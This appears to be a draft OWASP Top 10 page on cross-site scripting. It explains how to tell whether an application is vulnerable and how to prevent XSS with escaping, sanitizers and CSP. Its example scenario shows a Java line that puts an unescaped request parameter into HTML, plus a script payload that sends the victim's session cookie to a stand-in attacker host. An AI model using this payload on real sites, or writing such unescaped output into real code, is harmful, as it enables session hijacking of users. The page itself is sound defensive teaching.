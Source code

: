 # A3 Cross Site Scripting

| Threat agents | Exploitability | Prevalance | Detectability | Technical Impact | Business Impacts |
| --- | --- | --- | --- | --- | --- |
| App Specific |  EASY | COMMON | AVERAGE | SEVERE | App Specific | 
| TBA | TBA | TBA | TBA. | TBA |

## Am I vulnerable to attack?

You are vulnerable to Server XSS if your server-side code uses user-supplied input as part of the HTML output, and you don’t use context-sensitive escaping to ensure it cannot run. If a web page uses JavaScript to dynamically add attacker-controllable data to a page, you may have Client XSS. Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs, but escaping (and to a lesser extent) input validation can be used to make this safe.
Automated tools can find some XSS problems automatically. 

However, each application builds output pages differently and uses different browser side interpreters such as JavaScript, ActiveX, Flash, and Silverlight, usually using 3rd party libraries built on top of these technologies. This diveristy makes automated detection difficult, particularly when using modern single-page applications and powerful JavaScript frameworks and libraries. Therefore, complete coverage requires a combination of manual code review and penetration testing, in addition to automated approaches.

## How do I prevent

Preventing XSS requires separation of untrusted data from active browser content.

To avoid Server XSS, the preferred option is to properly escape untrusted data based on the HTML context (body, attribute, JavaScript, CSS, or URL) that the data will be placed into. See the OWASP XSS Prevention Cheat Sheet for details on the required data escaping techniques.

To avoid Client XSS, the preferred option is to avoid passing untrusted data to JavaScript and other browser APIs that can generate active content. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the OWASP DOM based XSS Prevention Cheat Sheet.

For rich content, consider auto-sanitization libraries like OWASP’s AntiSamy or the Java HTML Sanitizer Project.
Consider Content Security Policy (CSP) to defend against XSS across your entire site.

## Example Scenarios

The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

<code>
  (String) page += "<input name='creditcard' type='TEXT'  value='" + request.getParameter("CC") + "'>";
</code>

The attacker modifies the ‘CC’ parameter in his browser to:
<code>
  '><script>document.location=  'http://www.attacker.com/cgi-bin/cookie.cgi?  foo='+document.cookie</script>'.
</code>

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session. 
Note that attackers can also use XSS to defeat any  automated CSRF defense the application might employ. See 2017-A8 for info on CSRF.

## References
OWASP
* [OWASP Proactive Controls - TBA]()
* [OWASP Application Security Verification Standard - TBA]()
* [OWASP Testing Guide: 1st 3 Chapters on Data Validation Testing]()
 OWASP Types of Cross-Site Scripting
 OWASP XSS Prevention Cheat Sheet
 OWASP DOM based XSS Prevention Cheat Sheet
 OWASP XSS Filter Evasion Cheat Sheet
External
 CWE Entry 79 on Cross-Site Scripting
